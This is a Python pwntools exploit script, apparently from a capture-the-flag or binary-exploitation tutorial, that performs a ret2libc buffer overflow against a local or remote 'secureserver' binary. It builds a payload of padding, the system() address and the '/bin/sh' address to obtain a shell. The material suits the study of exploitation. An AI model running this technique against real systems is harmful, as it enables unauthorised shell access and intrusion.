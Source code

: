 exploit.py:

{% code lineNumbers="true" %}
```python
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Binary filename
exe = './secureserver'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# Lib-c offsets, found manually (ASLR_OFF)
libc_base = 0xf7d81000
system = libc_base + 0x48150
binsh = libc_base + 0x1bd0f5

# Print out our addresses
info('libc_base: %#x', libc_base)
info('system: %#x', system)
info('binsh: %#x', binsh)

# How many bytes to the instruction pointer (EIP)?
padding = 76

payload = flat(
    asm('nop') * padding,  # Padding up to EIP
    system,  # Address of system function in libc
    0x0,  # Return pointer -- this can be garbage, we have to do this because we're attacking x86
    binsh  # Address of /bin/sh in libc
)

# Write payload to file
write('payload', payload)

# Exploit
io.sendlineafter(b':', payload)

# Get flag/shell
```